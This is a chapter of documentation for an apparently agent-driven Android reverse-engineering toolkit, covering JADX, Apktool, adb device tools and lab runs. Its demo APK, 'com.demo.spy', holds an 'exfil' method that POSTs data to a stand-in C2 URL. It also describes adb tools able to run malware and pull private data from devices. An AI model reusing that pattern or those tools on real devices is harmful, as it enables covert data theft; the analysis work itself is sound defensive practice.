



# 19. Android and mobile analysis

> Scope: static APK analysis (JADX bridge), resource decoding (Apktool), device acquisition and control (`adb`, 24 tools), JEB bridge, Flutter build identification, application-graph projections (Android, HarmonyOS), and a reproducible lab recipe for a benign demo APK.
> Source: `github.com/morluto/rea` HEAD `f75b1a4`, `rea-agents` 6.4.0. Paths repo-relative. **RUN** = executed in this lab; **DOC** = read from code/docs only. This lab has JADX (jadx-headless-mcp 0.7.1 JAR, JDK 21) but **no adb, no Apktool, no JEB, no HarmonyOS package**.
> Related: [14-filetypes-native-apple-archives.md](14-filetypes-native-apple-archives.md) (artifact inventory), [18-process-capture-and-instrumentation.md](18-process-capture-and-instrumentation.md) and its [part B](18-process-capture-and-instrumentation-part-b.md) (Frida on device lanes), [21-security-model.md](21-security-model.md), [23-defensive-malware-analysis-playbook.md](23-defensive-malware-analysis-playbook.md), [24-porting-blueprints.md](24-porting-blueprints.md).

**Safety summary.** Static JADX/Apktool/Flutter/graph tools never execute the APK. The **adb lane can run malware on a connected device** (`install_adb_package`, `start_adb_app`, `start_adb_activity`) and can pull private data from it; those are device-mutating tools (section 5). The JADX/JEB/Apktool *engines* are third-party code you supply and REA runs (the JAR is executed in a JVM): their provenance is yours to vet (section 3.4).

---

## 1. Inventory

| Family | Tools (MCP) / CLI | Code | Needs | Executes target? | Lab status |
|---|---|---|---|---|---|
| JADX static analysis | `inspect_android_package`, `search_android_classes`, `inspect_android_class`, `inspect_android_method`, `trace_android_references` | `src/android/*`, `bridge/android/ReaJadxBridge.java`, `src/application/android/*`, `src/domain/android/*` | `REA_JADX_MCP_JAR` + JDK >= 17 with `jdk.compiler` | No | **RUN** (all five) |
| Application graph | `project_android_application_graph` | `src/domain/android/androidApplication.ts` | prior `inspect_artifact` Evidence | No | **RUN** |
| Apktool resources | `inspect_apktool_client`, `decode_android_resources` | `src/apktool/*` | `apktool` >= 2.7.0 + Java | No (decodes) | **DOC**; fail-closed refusal **RUN** |
| adb device lane | 24 tools (section 5) | `src/adb/*`, `src/domain/adb/adbDeviceAnalysis.ts`, `src/contracts/adb/adbToolContracts.ts` | `adb` binary | **Yes, on the device** (3 tools) | **DOC**; argv/quoting **RUN against a stand-in adb**; refusal **RUN** |
| JEB bridge | `inspect_jeb_client`, `open_jeb_project`, `list_jeb_units`, `decompile_jeb_item` | `src/jeb/*` | a running JEB MCP server | No (remote engine) | **DOC**; refusal **RUN** |
| Flutter | `identify_flutter_build`, `inspect_dart_aot` | `src/flutter/*` | nothing | No | `identify_flutter_build` **RUN** (negative); `inspect_dart_aot` **DOC** |
| HarmonyOS | `project_harmony_application_graph` (inventory via `inspect_artifact`) | `src/domain/harmony/harmonyApplication.ts`, `src/application/harmony/*` | HAP/HSP/App Pack | No | **DOC** |

(`inspect_apktool_client` counts as "apktool" family; `decode_android_resources` is registered as `apktool-provider`, `.cache/mcp-tool-catalog.json`.)

### 1.1 Component diagram



*Figure 1. The five static families are independent providers; the adb lane is the acquisition source that feeds them (`docs/adb-device-analysis.md`: "The pulled APK set feeds the existing analysis families directly"). Dotted edges are agent-orchestrated, not automatic.*

---

## 2. Target admission (shared by all Android static tools)

Each tool takes `path` of a **standalone `.apk` ZIP**. The JADX provider refuses anything else: RUN on `samples/sample.zip` returns `capability_unavailable ... "Target .../sample.zip is zip; provide one standalone APK."` (`src/android/JadxProvider.ts:334-340`). Split APKs and `.aab` are out of scope (`docs/android-analysis.md`, "These operations do not execute the APK or provide split APK/AAB handling, signature validation, full resource-table semantics, native-library analysis or Android runtime capture.").

The input contracts (verbatim):

`src/domain/android/androidAnalysis.ts:1-66`

```ts
import { z } from "zod";
import { localPathStringSchema } from "../localPath.js";

const target = {
  path: localPathStringSchema.describe(
    "Local APK path; the target is never executed",
  ),
};
const classTarget = {
  ...target,
  class_name: z.string().min(1).describe("Exact fully qualified class name"),
};

/** Caller intent for static Android inspection, independent of its engine. */
export const androidInputSchemas = {
  inspect_android_package: z.strictObject(target),
  search_android_classes: z.strictObject({
    ...target,
    query: z
      .string()
      .describe("Case-sensitive class-name substring; empty lists all classes"),
  }),
  inspect_android_class: z.strictObject(classTarget),
  inspect_android_method: z.strictObject({
    ...classTarget,
    method_name: z.string().min(1),
    overload_index: z
      .number()
      .int()
      .nonnegative()
      .optional()
      .describe(
        "Explicit index among same-name methods; required when ambiguous",
      ),
  }),
  trace_android_references: z.strictObject({
    ...classTarget,
    method_name: z
      .string()
      .min(1)
      .optional()
      .describe(
        "Omit for class references; select ambiguous methods with overload_index",
      ),
    overload_index: z
      .number()
      .int()
      .nonnegative()
      .optional()
      .describe(
        "Index among same-name methods from inspect_android_class; requires method_name",
      ),
  }),
} as const;

/** Optional retained delivery is separate from the engine's APK request. */
export const androidPackageInspectionInputSchema =
  androidInputSchemas.inspect_android_package.extend({
    detail: z.enum(["complete", "summary"]).optional(),
  });

/** Supported static Android operations. */
export type AndroidOperation = keyof typeof androidInputSchemas;
/** Validated Android requests carry their selected operation. */
export type AndroidRequest = {
  [Name in AndroidOperation]: {
```

Result contracts (verbatim):

`src/domain/android/androidAnalysis.ts:96-209`

```ts
const textCoverage = z.strictObject({
  status: z.enum(["complete", "partial"]),
  text: z.string(),
  reported_total_bytes: z.number().int().nonnegative().nullable(),
});
/** A DEX prototype; hex parentheses also keep the advertised class valid in v mode. */
export const dexDescriptorSchema = z
  .string()
  .regex(
    /^\((?:\[*(?:[ZBSCIJFD]|L[^;\x28\x29]+;))*\)(?:V|\[*(?:[ZBSCIJFD]|L[^;\x28\x29]+;))$/u,
  );

const method = z.strictObject({
  name: z.string(),
  reported_signature: z.string(),
  overload_index: z.number().int().nonnegative(),
  is_constructor: z.boolean(),
  dex_descriptor: dexDescriptorSchema,
});
const engine = z.strictObject({
  name: z.string().min(1),
  version: z.string().nullable(),
  artifact_sha256: z.string().regex(/^[a-f0-9]{64}$/u),
  source_revision: z.string().nullable(),
  worker_count: z.number().int().positive(),
  heap_limit_mib: z.number().int().positive().nullable(),
});
const common = { engine };

/** Portable observations with explicit decompiler and identity limitations. */
export const androidResultSchemas = {
  inspect_android_package: z.strictObject({
    ...common,
    package_name: z.string().nullable(),
    version_name: z.string().nullable(),
    version_code: z.string().nullable(),
    min_sdk: z.string().nullable(),
    target_sdk: z.string().nullable(),
    permissions: z.array(z.string()),
    manifest: textCoverage,
    class_count: z.number().int().nonnegative(),
    resource_count: z.number().int().nonnegative(),
    signature_verification: z.literal("not_performed"),
  }),
  search_android_classes: z.strictObject({
    ...common,
    query: z.string(),
    total_classes: z.number().int().nonnegative(),
    matches: z.array(z.string()),
    duplicate_names: z.array(
      z.strictObject({
        name: z.string(),
        occurrences: z.number().int().min(2),
      }),
    ),
    coverage: z.literal("complete"),
  }),
  inspect_android_class: z.strictObject({
    ...common,
    class_name: z.string(),
    methods: z.array(method),
    fields: z.array(
      z.strictObject({ name: z.string(), reported_type: z.string() }),
    ),
    inner_classes: z.array(z.string()),
  }),
  inspect_android_method: z.strictObject({
    ...common,
    class_name: z.string(),
    method: method,
    overload_count: z.number().int().positive(),
    representation: z.enum(["java", "smali"]),
    body_status: z.enum(["available", "not_available"]),
    fell_back: z.boolean(),
    markers: z.array(z.string()),
    source: textCoverage,
  }),
  trace_android_references: z.strictObject({
    ...common,
    class_name: z.string(),
    method_name: z.string().nullable(),
    overload_index: z.number().int().nonnegative().nullable(),
    reported_signature: z.string().nullable(),
    dex_descriptor: dexDescriptorSchema.nullable(),
    total: z.number().int().nonnegative(),
    references: z.array(
      z.strictObject({
        kind: z.string(),
        name: z.string(),
        reported_full_name: z.string(),
        containing_class: z.string(),
        top_class: z.string(),
        source_line: z.null(),
        dex_offset: z.null(),
        /** false means transport-bounded instruction evidence; null is unknown. */
        direct_invokes_exhaustive: z.boolean().nullable(),
        /** Raw direct invoke instructions inside this using node, when available. */
        direct_invokes: z
          .array(
            z.strictObject({
              dex_entry: z.string().min(1),
              source_raw_method_id: z.string().min(1),
              dex_code_unit_offset: z.number().int().nonnegative(),
              dex_method_index: z.number().int().nonnegative(),
              opcode: z.string().regex(/^INVOKE_/u),
            }),
          )
          .nullable(),
      }),
    ),
    coverage: z.literal("complete"),
    reference_unit: z.literal("using_node"),
  }),
} as const;
```

---

## 3. JADX bridge (`src/android`)

### 3.1 Architecture

REA does **not** link JADX. It (1) copies the APK and the engine JAR into a private workspace, (2) launches the JVM in *source-file mode* on `bridge/android/ReaJadxBridge.java` with the engine JAR on the class path, (3) speaks MCP over the child's stdio, and (4) asks the bridge a **narrowed** set of tools.

* The bridge registers the unmodified upstream tool packs, then **removes every tool except eight consumed ones** and adds `rea_jvm_status`: `Set.of("load_apk","get_app_info","get_android_manifest","list_classes","get_class_summary","get_method_body","get_xrefs_to_class","get_xrefs_to_method")` (`bridge/android/ReaJadxBridge.java:296-310`). No upstream "run", "export" or "write" tool survives. Class listing, summary and xref tools are re-wrapped with REA-side narrowed schemas (`:313-340`).
* Launch command (`src/android/JadxProvider.ts:424-440`): `java [jvmArguments] --class-path <private-copy-of-JAR> <private-copy-of-ReaJadxBridge.java>`, `cwd = private root`, run through `spawnOwnedProviderProcess` with `stdin: "pipe"` (`src/android/JadxMcpTransport.ts:60-70`) so REA's owned-process cleanup (chapter 18, 2.6) applies. The bridge copy is chmod `0400` and re-hashed after copying (`JadxProvider.ts:414-424`).
* The engine is asked for `threads: 1, resources: "full"` (`JadxSession.ts:116-124`).

### 3.2 Configuration (environment)

| Variable | Meaning | Check | Source |
|---|---|---|---|
| `REA_JADX_MCP_JAR` | **Absolute** path to `jadx-headless-mcp-0.7.1-all.jar`; relative or unset -> `capability_unavailable` (RUN, both) | regular file; ZIP directory must contain the bridge's required classes (e.g. `io/modelcontextprotocol/kotlin/sdk/server/Server.class`) | `JadxConfiguration.ts:276-390` |
| `JAVA_HOME` | Optional absolute JDK root, else `java` on `PATH` | `java --list-modules` must show `jdk.compiler` and `java.base` >= 17 | `JadxConfiguration.ts:402-615` |
| `REA_JADX_HEAP_MIB` | Optional `-Xmx<N>m` | positive safe integer | `JadxConfiguration.ts:480-500` |
| `REA_JADX_ACTIVE_PROCESSOR_COUNT` | Optional `-XX:ActiveProcessorCount=<N>` | positive, fits int32 | same |
| `JAVA_TOOL_OPTIONS`, `JDK_JAVA_OPTIONS`, `_JAVA_OPTIONS` | Preserved, and part of the session reuse key | n/a | `JadxProvider.ts:367-386` |

Observed in RUN: engine reported max heap 3,420 MiB (`heap_limit_mib: 3420`) with default JVM ergonomics; the JVM's own `JAVA_TOOL_OPTIONS` line is echoed by `javac`/`java` in this lab (proxy settings) and harmless.

### 3.3 Lifecycle and limits

| Property | Value | Source |
|---|---|---|
| Serialized operations | one at a time per provider instance (promise tail) | `JadxProvider.ts:44-60, 270-280` |
| Whole-operation deadline | 120 s (`OPERATION_TIMEOUT_MS`), upstream decompile limit 90 s | `JadxProvider.ts:40, 326`, docs |
| Session reuse | key = path, sha256, jar path+hash, bridge hash, java path, JVM args, relevant env; mismatch retires the old JVM | `JadxProvider.ts:367-392` |
| Idle retirement | 60 s | `JadxProvider.ts:312-318` |
| Frame / operation budget | 8 MiB frame, 32 MiB per operation (stdout+stderr) | `JadxMcpTransport.ts:20-21` |
| Per-call timeouts | connect 30 s, tool call 120 s | `JadxSession.ts:93, 217` |
| Text budgets | manifest and method text 1 MiB upstream, truncation reported as `status: "partial"` (`normalizeJadxText`) | `JadxProtocol.ts:132-164` |
| Cleanup | on failure/timeout/cancel/disconnect: close transport, verify owned process exit, remove workspace; unconfirmed cleanup blocks later launches of that provider instance | `JadxProvider.ts:283-300, 440-493` |
| Windows | owned Job Object + detached workspace-guardian helper (`scripts/rea-android-workspace-guardian.mjs`) | `JadxWorkspaceRoot.ts:16-224`, docs |

### 3.4 The "sha256 pin" — what it does and does not enforce (RUN)

The pinned release identity is data, not a gate (verbatim):

`src/android/JadxRelease.ts:1-52`

```ts
/** Audited upstream release; source remains unmodified in the Git submodule. */
export const JADX_RELEASE = Object.freeze({
  version: "0.7.1",
  revision: "5844800a486d2248fa949b74c9896285f5b54de2",
  sha256: "6e5eacf500b64292bfb73c49797c1958f6ee44646e43e868039ae7feb573ff75",
  url: "https://github.com/1013503897/jadx-headless-mcp/releases/download/v0.7.1/jadx-headless-mcp-0.7.1-all.jar",
});

/** Identity of REA's metadata bridge, distinct from the producing engine. */
export const JADX_BRIDGE_IDENTITY = Object.freeze({
  name: "rea-jadx-bridge",
  version: "1",
});

/** Remediation when `REA_JADX_MCP_JAR` is missing or not an absolute path. */
export const JADX_JAR_CONFIGURATION_REMEDIATION = `Set REA_JADX_MCP_JAR to the absolute path of a caller-supplied jadx-headless-mcp ${JADX_RELEASE.version} JAR. REA does not download or install it.`;

/** Remediation when the selected Java runtime cannot satisfy the JADX bridge. */
export const JADX_JAVA_RUNTIME_REMEDIATION =
  "Select a full JDK including jdk.compiler via JAVA_HOME or PATH, then verify it with java --list-modules. REA does not install Java.";

/** Remediation when a JADX JVM resource override is malformed. */
export const JADX_JVM_OPTIONS_REMEDIATION =
  "Set REA_JADX_HEAP_MIB to a positive integer (heap size in MiB) and REA_JADX_ACTIVE_PROCESSOR_COUNT to a positive integer within the JVM's signed 32-bit range.";

/** Remediation when the host cannot run the Android JADX subprocess. */
export const JADX_UNSUPPORTED_HOST_REMEDIATION =
  "Use Linux, macOS, or Windows x64 with its bundled native controls for Android JADX analysis.";

/** Remediation when the Windows native backend cannot take process ownership. */
export const JADX_WINDOWS_NATIVE_REMEDIATION =
  "Use a matching current Windows x64 REA package with its bundled native controls. The native failure above identifies the failed constraint; Java installation or registration changes cannot enable a missing native backend.";

/** Remediation when the Java module-listing probe cannot establish the runtime. */
export const JADX_JAVA_PROBE_REMEDIATION =
  "Verify the selected Java launcher with java --list-modules: it must start promptly and emit a concise module listing including a parseable java.base version. REA does not install Java.";

/** Producing engine identity used by Evidence and the generated product catalog. */
export const JADX_PROVIDER_IDENTITY = Object.freeze({
  id: "jadx",
  name: "JADX headless",
  version: JADX_RELEASE.version,
});

/** Audited engine coverage, kept outside portable Android semantics. */
export const JADX_LIMITATIONS = [
  "Static decompiler observations do not establish runtime behavior; the APK is never executed.",
  "Method signatures use provider display types; DEX prototypes come from frozen JADX metadata. Display names may be aliases, and overload indices are local to this engine and artifact.",
  "Class inventories use parsed metadata before code generation, including synthetic members that may be omitted from decompiled source. Source positions remain unknown.",
  "Incoming reference totals count JADX using nodes. Direct invoke entries within a using method report raw DEX code-unit offsets and method indexes, but coverage is limited to those nodes and directly matched invokes; it does not establish every possible dynamic or reflective call site.",
  "Manifest summary fields are extracted by the upstream engine; decoded XML is retained for verification. APK signatures, split APKs, native libraries and Android runtime capture are not verified by this provider.",
] as const;
```

The enforcement points are in `JadxSession.execute` (verbatim):

`src/android/JadxSession.ts:108-141`

```ts
      const tools = this.#tools(request, target, signal);
      const runtime = jadxRuntimeSchema.parse(
        await tools.json("rea_jvm_status", {}),
      );
      this.#engineVersion = runtime.engine_reported_version;
      if (runtime.engine_reported_version !== JADX_RELEASE.version)
        throw new AnalysisCapabilityUnavailableError(
          "jadx",
          request.operation,
          `Expected engine ${JADX_RELEASE.version}; JAR reported ${runtime.engine_reported_version}.`,
        );
      const loaded =
        this.#loaded ??
        jadxLoadSchema.parse(
          await tools.json("load_apk", {
            path: snapshot,
            threads: 1,
            resources: "full",
          }),
        );
      if (loaded.apk_path !== snapshot)
        throw new AnalysisOutputError(
          request.operation,
          "JADX loaded a different APK path than the admitted snapshot",
        );
      this.#loaded = loaded;
      const engine = {
        name: "jadx-headless-mcp",
        version: runtime.engine_reported_version,
        artifact_sha256: jarHash,
        source_revision:
          jarHash === JADX_RELEASE.sha256 ? JADX_RELEASE.revision : null,
        worker_count: 1,
        heap_limit_mib:
```

Facts:

1. **Version string is enforced**: the JAR must report engine version exactly `0.7.1` (`JadxSession.ts:113-118`), and the bridge must identify as `rea-jadx-bridge` v1 (`:99-107`).
2. **The SHA-256 is recorded, not required**: `source_revision` is the audited commit only when the JAR's digest equals the pin, otherwise `null` (`:138-139`). `third_party/README.md` says the same ("A caller-supplied build reporting the supported protocol version retains its actual digest and an unknown source revision").
3. **RUN proof.** `/opt/lab/jadx-mcp.jar` has sha256 `6e5eacf5...ff75` (matches the pin): result `engine.source_revision = 5844800a486d2248fa949b74c9896285f5b54de2`. A copy modified by adding one file (new sha256 `fce2e46e...9fec`) was **accepted and executed**; Evidence shows `"artifact_sha256":"fce2e46e...","source_revision":null`. So a tampered JAR runs; the only trace is the digest in Evidence.
4. **Consequence for a security team:** treat `REA_JADX_MCP_JAR` as a *trusted-code* input: verify the digest yourself (the docs give the `sha256sum -c` command, `docs/android-analysis.md`) and, in automation, assert `engine.artifact_sha256 == 6e5eacf5...ff75` on every Evidence record.
5. The APK is **snapshotted** (copy pinned to one descriptor, mode `0400`, digest checked equal to the admitted digest, `AndroidTargetSnapshot.ts:18-60`) so a concurrent change to the original cannot mix into one observation; a changed file yields `invalid_value ... APK bytes changed after admission`.

### 3.5 Agent flow (sequence)



*Figure 2. The standard triage chain (RUN via CLI; the MCP path uses the same `AndroidAnalysisService`). Each tool call is independent; the JVM session is an optimization, not shared agent state.*

### 3.6 RUN evidence on the demo APK

Target: `samples/apk/demo-unsigned.apk` (benign; built in section 9). Outputs in `samples/out/apk-*.json` and `ch19/out/*.json`.

| Step | Command | Key result |
|---|---|---|
| 1 | `rea inspect-android-package demo-unsigned.apk --json` | package `com.demo.spy` v1.0 (code 1), min/target SDK 23, permissions `INTERNET, SEND_SMS, READ_SMS`, decoded manifest (status complete), `class_count: 1`, `resource_count: 2`, `signature_verification: "not_performed"`; engine `jadx-headless-mcp 0.7.1`, `source_revision 5844800a...`, `worker_count: 1`, `heap_limit_mib: 3420`; limitations list (5 entries) |
| 2 | `rea search-android-classes demo-unsigned.apk MainActivity` | 1 match `com.demo.spy.MainActivity`, `coverage: complete`, `duplicate_names: []` |
| 3 | `rea inspect-android-class demo-unsigned.apk com.demo.spy.MainActivity` | methods `<init>()V`, `exfil(Ljava/lang/String;)V`, `onCreate(Landroid/os/Bundle;)V`, `sendPremium()V` (each `overload_index 0`, DEX descriptor), field `C2: java.lang.String`, no inner classes |
| 4 | `rea inspect-android-method ... com.demo.spy.MainActivity exfil` | decompiled Java: `HttpURLConnection ... new URL(C2).openConnection(); setRequestMethod("POST"); setDoOutput(true); getOutputStream().write(str.getBytes()); getResponseCode();`, `representation: java`, `fell_back: false`, `source.status: complete` |
| 5 | `rea trace-android-references ... com.demo.spy.MainActivity --method-name exfil` | `total: 1`: `MainActivity.onCreate` via `INVOKE_STATIC` at DEX code unit offset 5, method index 5, `direct_invokes_exhaustive: true`, `reference_unit: using_node`, `coverage: complete` |

Concrete JSON (step 3, `ch19/out/class.json`, abridged):

```json
{ "engine": {"name":"jadx-headless-mcp","version":"0.7.1","artifact_sha256":"6e5eacf5...ff75","source_revision":"5844800a...","worker_count":1,"heap_limit_mib":3420},
  "class_name": "com.demo.spy.MainActivity",
  "methods": [ {"name":"exfil","reported_signature":"exfil(java.lang.String): void","overload_index":0,"is_constructor":false,"dex_descriptor":"(Ljava/lang/String;)V"}, "..." ],
  "fields": [{"name":"C2","reported_type":"java.lang.String"}],
  "inner_classes": [] }
```

Evidence envelope: `provider {id:"jadx", name:"JADX headless", version:"0.7.1"}`, `confidence: observed`, `authority: shipped-artifact` (RUN).

Failure modes exercised (RUN): no `REA_JADX_MCP_JAR` -> `capability_unavailable` with the set-the-variable remediation; relative path -> same; non-APK -> `capability_unavailable`; unknown class -> `invalid_request ... "Exact class not found: com.demo.spy.Nope; use search_android_classes to discover fully qualified names."` (with `details.partial_observation` retaining the target digest and upstream calls); `<clinit>` request -> `Method com.demo.spy.MainActivity.<clinit> was not found; inspect_android_class lists available methods.`

### 3.7 Gap found: constant strings (IOCs) are not exposed by the Android tools (RUN)

The class `MainActivity` declares `static final String C2 = "https://c2.example.invalid/api/v1/collect"`. None of the five tools returns that value: `inspect_android_class` lists only the field name and type; `inspect_android_method exfil` shows `new URL(C2)`; no `<clinit>` exists because the compiler stores the value as a DEX static-value constant (`<clinit>` request fails as above); and there is no class-source or string-listing operation in the Android family. The URL **is** in the DEX (`unzip -p demo-unsigned.apk classes.dex | strings` prints it). For C2 extraction use `extract_artifact` plus an external DEX/strings step (or the JEB lane), not these tools. This matters for malware triage: **method bodies expose inlined literals but not constant-field initializers**.

### 3.8 Interpretation rules worth encoding in an agent

From `docs/android-analysis.md` and the limitation text (`src/android/JadxRelease.ts:45-52`): decompiled source is a derived representation; overload indices are artifact+engine-local; `reference_unit=using_node` means totals count JADX nodes, not call sites; empty `direct_invokes` means "none matched in that node", `null` means raw code unavailable; reflection, dynamic loading and virtual dispatch are not resolved; signatures, split APKs, native libraries are not verified.

---

## 4. Apktool resources (`src/apktool`)

**DOC** (no apktool in lab); fail-closed behavior **RUN**.

* Readiness `inspect_apktool_client`: runs `apktool --version`; selection by `REA_APKTOOL_COMMAND` (absolute) else `apktool` on `PATH`; version must be >= 2.7.0 (`src/apktool/ApktoolConfiguration.ts:26, 218-222, 316-322`). RUN without apktool: `capability_unavailable ... "The selected apktool launcher was not found: apktool. Set REA_APKTOOL_COMMAND to an absolute apktool launcher..."` for both `inspect-apktool-client` and `decode-android-resources`.
* Decode command (verbatim from `ApktoolProvider.ts:646-656`): `apktool d --no-src -f -o <workspace> --frame-path <workspace-framework> <private-snapshot-of-apk>`; **smali is skipped** (`--no-src`), 600 s deadline, 4 MiB output capture (`:79-80`).
* Outputs: `apktool.yml` metadata as printed, decoded manifest (512 KiB cap), `values/strings.xml` projection (8 MiB read cap, 2,000 entries, markup-bearing entries counted as unparsed), locales list, decoded file count capped at 100,000 (`:81-85`).
* Windows `.bat/.cmd` launchers go through an explicit `cmd.exe /d /s /c` with strict character refusal (docs).
* Workspace and framework cache live inside a provider-owned temp dir removed before returning; failure to remove is reported and retried on close (docs).
* Malware relevance: gets the *binary-manifest* and resource strings (permissions, receivers, exported flags, resource-borne C2 strings) that JADX's `get_android_manifest` already approximates; Apktool adds the resource table, not code.

---

## 5. ADB device lane (`src/adb`) — 24 tools

**DOC** for real devices (no adb here). What I could execute: (a) the refusal path with no adb (RUN: `capability_unavailable ... "The selected adb binary was not found: adb. Set REA_ADB_PATH..."`), and (b) the exact **argv and quoting** produced by the real provider against a **stand-in `adb` script** I wrote to log its arguments and fake minimal replies (RUN, clearly a mock; it validates REA's command construction, not device behavior).

### 5.1 Design

* The adb client is bring-your-own: `REA_ADB_PATH` (absolute) or `adb` on `PATH` (`src/adb/AdbConfiguration.ts:13, 25-42`). `inspect_adb_client` runs `adb version` only and "never contacts the server".
* Every operation = **one bounded `execFile`** of a **fixed argument vector** (`src/adb/AdbProvider.ts:157-270`, `execFileOutput`), never through a host shell. Caller values are positional.
* For `adb shell ...` the provider shell-quotes every operand because adb joins them into a remote command line (verbatim):

`src/adb/AdbProvider.ts:134-149`

```ts
/** adb joins shell operands into a remote POSIX command; quote at that boundary. */
const quoteShellOperand = (value: string): string =>
  /^[A-Za-z0-9_./:=@+,-]+$/u.test(value)
    ? value
    : "'" + value.replaceAll("'", "'\\''") + "'";

const adbArguments = (
  serial: string | undefined,
  arguments_: readonly string[],
): readonly string[] => {
  const operands =
    arguments_[0] === "shell"
      ? ["shell", ...arguments_.slice(1).map(quoteShellOperand)]
      : [...arguments_];
  return serial === undefined ? operands : ["-s", serial, ...operands];
};
```

* Input admission (zod, verbatim):

`src/domain/adb/adbDeviceAnalysis.ts:11-34`

```ts
const deviceSerialSchema = z
  .string()
  .min(1)
  .max(256)
  .regex(
    /^[^\x00\s"']+$/u,
    "Device serial cannot contain whitespace or quotes",
  );

/**
 * Android package names as Package Manager reports them. System entries can
 * be a single segment (`android`), so at least one identifier is required.
 */
const packageNameSchema = z
  .string()
  .min(1)
  .max(256)
  .regex(
    /^[A-Za-z][A-Za-z0-9_]*(\.[A-Za-z][A-Za-z0-9_]*)*$/u,
    "Package name must be dot-separated Java identifiers",
  );

/** Text states emitted by adb's ConnectionState formatter. */
export const ADB_DEVICE_STATES = [
```

* No tool accepts an arbitrary shell string, `input`, or `monkey` (docs, "Resource and lifecycle limits"). The only free-form shell script is the hard-coded directory listing `sh -c 'cd "$1" || exit ... find . -mindepth 1 -maxdepth 1 -exec sh -c "$2" ...'` with caller values passed as `$1`/`$2` positional operands (`AdbProvider.ts:1020-1034`).

### 5.2 The 24 tools: argv, effects and host/device footprint

Effects are from `TOOL_EFFECTS` (`src/contracts/toolEffects.ts:312-460`). Legend: `N`=`accessesNetwork`, `L`=`launchesProcess` (all 24 have both; adb may start its local server), `W`=`writesFilesystem` (host), `D`=`mutatesDevice`+`mutatesTarget`. **None sets `executesForeignCode`** (the flag is defined as code run "on the host", `toolEffects.ts:11-17`); starting an app on the device is covered by `D`.

| # | Tool | adb argv (after optional `-s <serial>`) | Host writes | Device effect | N/L | W | D | Timeout / cap |
|---|---|---|---|---|---|---|---|---|
| 1 | `inspect_adb_client` | `version` | no | none | L only | | | 10 s / 64 KiB |
| 2 | `list_adb_devices` | `devices -l` | no | none (may start adb server) | N L | | | 20 s / 1 MiB |
| 3 | `inspect_adb_device` | `shell getprop` (whitelist projection) | no | read | N L | | | 30 s / 2 MiB |
| 4 | `inspect_adb_display` | `shell wm size`, `shell wm density` | no | read | N L | | | 30 s |
| 5 | `list_adb_features` | `shell pm list features` | no | read | N L | | | 30 s |
| 6 | `list_adb_services` | `shell service list` | no | read | N L | | | 30 s |
| 7 | `list_adb_processes` | `shell ps -A` | no | read | N L | | | 30 s |
| 8 | `inspect_adb_window` | `shell dumpsys window windows` (fallback `displays`) | no | read | N L | | | 30 s / 8 MiB |
| 9 | `read_adb_setting` | `shell settings get <system|secure|global> <key>` | no | read | N L | | | 20 s / 1 MiB |
| 10 | `read_adb_logcat` | `shell logcat -d -b <buffer> -t <count> [--pid N]` | no | read (log may hold secrets) | N L | | | 60 s / 4 MiB |
| 11 | `list_adb_packages` | `shell pm list packages -f [-3|-s]` | no | read | N L | | | 60 s / 8 MiB |
| 12 | `resolve_adb_packages` | `shell pm list packages -f` (substring filter host-side) | no | read | N L | | | 60 s |
